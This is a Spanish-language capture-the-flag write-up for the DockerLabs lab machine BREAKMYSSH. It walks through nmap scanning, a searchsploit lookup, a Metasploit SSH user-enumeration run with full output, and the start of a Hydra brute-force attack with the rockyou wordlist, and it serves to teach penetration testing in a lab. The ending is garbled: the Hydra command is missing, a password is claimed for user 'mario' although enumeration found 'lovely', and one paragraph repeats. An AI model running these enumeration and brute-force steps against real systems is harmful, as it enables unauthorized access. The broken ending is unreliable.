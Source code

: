 # BREAKMYSSH
## INDICACIONES PREVIAS
* Sistema operativo: Kali Linux
* Terminal: ZSH Powerlevel10K
* Utilidad mkt definida en la zshrc para la creación automática de directorios nmap, content y scripts.
* Cat aliseado como bat.
## DESPLIEGUE DE MÁQUINA
1. Descargarla desde la plataforma DockerLabs.
2. En mi caso, yo me creo un directorio con el nombre de la máquina para tenerlo todo más organizado, por lo que mediante el comando mv (`mv ~/Downloads/<máquina.zip> ~/Desktop/Máquinas/Dockerlabs/<máquina>`) la moveré de descargas a la nueva ubicación.
3. Una vez hecho esto, la descomprimiremos mediante unzip <máquina.zip> y se nos creará un ejecutable .tar
4. Por último, la desplegaremos mediante sudo bash auto_deploy.sh <máquina.tar> y se nos proporcionará una IP, en mi caso 172.17.0.2.
## EXPLOTACIÓN Y ESCALADA DE PRIVILEGIOS
Primero comprobaremos la conectividad con la máquina. 
```ruby
> ping -c1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=4.45 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 4.447/4.447/4.447/0.000 ms
```

* c1 (count 1) para indicar que solo queremos mandar un paquete ICMP y después termine de enviar paquetes. 

* De aquí podemos observar que: 
  * Se ha enviado un paquete y se ha recibido de vuelta, por lo que hay conectividad con la máquina.
  * Tenemos un ttl = 64, lo que quiere decir que nos encontramos ante un sistema Linux.

Una vez visto que tenemos conectividad comenzaremos con el escaneo de puertos.  Para ello ejecutaremos:
```ruby
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
* Con -p- escaneamos el rango completo de puertos (65535).
* Con --open añadimos que de esos solo nos interesan los abiertos.
* Con -sS seleccionamos que el tipo de escaneo será de tipo SYN Scan. Este se caracteriza por ser rápido y sigiloso puesto que no se completa el three-way handshake.
  * Según la respuesta del puerto, Nmap deduce su estado:
    * SYN/ACK recibido → el puerto está abierto.
    * RST (Reset) recibido → el puerto está cerrado.
    * Sin respuesta o ICMP error → el puerto está filtrado (por firewall).
  * Si el puerto estaba abierto (SYN/ACK), Nmap no completa la conexión: envía un RST para interrumpir el handshake y no dejar un rastro evidente.
* Con --min-rate 5000 indicamos que queremos un envío de 5000 paquetes por segundo.
* Con -vvv (triple verbose) se muestra por consola la información detallada y actualizada al momento.
* Con -n indicaremos que no queremos resolución DNS, trabajaremos directamente con direcciones IP.
* Con -Pn queremos que no se haga ping al host antes de comenzar el escaneo, asumiendo que está activo.
* Por último, con -oG exportamos la evidencia en un archivo con formato grepeable para facilitar su procesamiento en auditorias.

Para simplificarnos el visionado de los puertos abiertos directamente abriremos el archivo *allPorts*.
```ruby
❯ cat allPorts
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: allPorts
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.95 scan initiated Mon Sep  8 15:38:35 2025 as: /usr/lib/nmap/nmap --privileged -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
   2   │ # Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
   3   │ Host: 172.17.0.2 () Status: Up
   4   │ Host: 172.17.0.2 () Ports: 22/open/tcp//ssh///  Ignored State: closed (65534)
   5   │ # Nmap done at Mon Sep  8 15:38:37 2025 -- 1 IP address (1 host up) scanned in 2.37 seconds
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Una vez localizados los puertos abiertos, continuaremos con el escaneo específico de los mismos para ver que servicios y versiones corren por ellos.
```bash
❯ nmap -p22 -sCV 172.17.0.2 -oN targeted
```

* El parámetro -sCV es una conjunción de los parámetros:
  * -sC: Ejecuta los scripts de Nmap por defecto (Default Scripts) para el host/puerto para detectar vulnerabilidades básicas, información de banners, servicios públicos, etc..
  * -sV: Detecta la versión del servicio que corre en cada puerto abierto.
* Con -oN exportamos la evidencia en un archivo con formato Nmap para dejarlo registrado.

Al igual que antes, para que la visualización de toda la información sea más cómoda, la analizaremos desde el archivo *targeted* que acabamos de generar.
```java
❯ cat targeted -l java
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: targeted
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.95 scan initiated Mon Sep  8 15:39:37 2025 as: /usr/lib/nmap/nmap --privileged -p22 -sCV -oN targeted 172.17.0.2
   2   │ Nmap scan report for 172.17.0.2
   3   │ Host is up (0.00s latency).
   4   │ 
   5   │ PORT   STATE SERVICE VERSION
   6   │ 22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
   7   │ | ssh-hostkey: 
   8   │ |   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
   9   │ |   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
  10   │ |_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
  11   │ MAC Address: 02:42:AC:11:00:02 (Unknown)
  12   │ 
  13   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  14   │ # Nmap done at Mon Sep  8 15:39:37 2025 -- 1 IP address (1 host up) scanned in 0.95 seconds
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Como la versión del servicio OpenSSH es menor o igual a la 7.7 sabemos que puede haber vulnerabilidades conocidas. Esto es algo que acabas aprendiendo de memoria pero, si queremos comprobarlo podemos hacer uso de la herramienta [searchsploit](https://github.com/topics/searchsploit) para ver si presenta o no alguna vulnerabilidad.
```ruby
❯ searchsploit OpenSSH 7.7
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                                                   | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                                                             | linux/remote/45210.py
OpenSSH < 7.7 - User Enumeration (2)                                                                                                                       | linux/remote/45939.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
Podemos observar que, efectivamente, hay un par de vulnerabilidades conocidas.  Aquí puedes tomar dos caminos.
1. Utilizar alguna base de datos de CVEs para buscar algún script que poder ejecutar para explotarla.
2. Utilizar metasploit.

Yo decidí utilizar [metasploit](https://github.com/rapid7/metasploit-framework) en este caso añadiendo el parámetro -q para evitar el banner de inicio de la herramienta y así ganar más tiempo.
```ruby
❯ msfconsole -q
msf > use auxiliary/scanner/ssh/ssh_enumusers
[*] Setting default action Malformed Packet - view all 2 actions with the show actions command
msf auxiliary(scanner/ssh/ssh_enumusers) > show options 

Module options (auxiliary/scanner/ssh/ssh_enumusers):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CHECK_FALSE   true             no        Check for false positives (random username)
   DB_ALL_USERS  false            no        Add all users in the current database to the list
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5, socks5h, http, sapni, socks4
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         22               yes       The target port
   THREADS       1                yes       The number of concurrent threads (max one per host)
   THRESHOLD     10               yes       Amount of seconds needed before a user is considered found (timing attack only)
   USERNAME                       no        Single username to test (username spray)
   USER_FILE                      no        File containing usernames, one per line


Auxiliary action:

   Name              Description
   ----              -----------
   Malformed Packet  Use a malformed packet



View the full module info with the info, or info -d command.

msf auxiliary(scanner/ssh/ssh_enumusers) > set RHOST 172.17.0.2
RHOST => 172.17.0.2
msf auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
USER_FILE => /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
msf auxiliary(scanner/ssh/ssh_enumusers) > run
[*] 172.17.0.2:22 - SSH - Using malformed packet technique
[*] 172.17.0.2:22 - SSH - Checking for false positives
[*] 172.17.0.2:22 - SSH - Starting scan
[+] 172.17.0.2:22 - SSH - User 'mail' found
[+] 172.17.0.2:22 - SSH - User 'root' found
[+] 172.17.0.2:22 - SSH - User 'news' found
[+] 172.17.0.2:22 - SSH - User 'man' found
[+] 172.17.0.2:22 - SSH - User 'bin' found
[+] 172.17.0.2:22 - SSH - User 'games' found
[+] 172.17.0.2:22 - SSH - User 'nobody' found
[+] 172.17.0.2:22 - SSH - User 'lovely' found
[+] 172.17.0.2:22 - SSH - User 'backup' found
[+] 172.17.0.2:22 - SSH - User 'daemon' found
[+] 172.17.0.2:22 - SSH - User 'proxy' found
[+] 172.17.0.2:22 - SSH - User 'list' found
[+] 172.17.0.2:22 - SSH - User 'sys' found
[+] Scanned 1 of 1 hosts (100% complete)
[+] Auxiliary module execution completed
```
Una vez acabada la ejecución podemos observar el posible usuario de sistema, *lovely*.  Para comprobar si estamos en lo cierto, haremos uso de la herramienta de fuerza bruta [Hydra](https://github.com/vanhauser-thc/thc-hydra) utilizando *lovely* como nombre de usuario y el diccionario [rockyou](https://github.com/topics/rockyou-wordlist\) para comprobar contraseñas.

* Con -l seleccionamos el usuario.
* Con -P indicamos un conjunto de contraseñas a probar, en este caso, las recogidas en el diccionario.
* Por último indicamos el servicio y la dirección sobre la que ejecutar el ataque.
Vemos que este ataque ha sido satisfactorio y hemos encontrado una contraseña válida para el usuario *mario*.
Ahora que ya tenemos usuario y contraseña accederemos al servicio SSH para comenzar con el escalado de privilegios.
Una vez acabada la ejecución podemos observar el posible usuario de sistema, *lovely*.  Para comprobar si estamos en lo cierto, haremos uso de la herramienta de fuerza bruta [Hydra](https://github.com/vanhauser-thc/thc-hydra) utilizando *lovely* como nombre de usuario y el diccionario [rockyou.txt](https://github.com/topics/rockyou-wordlist) para comprobar contraseñas.


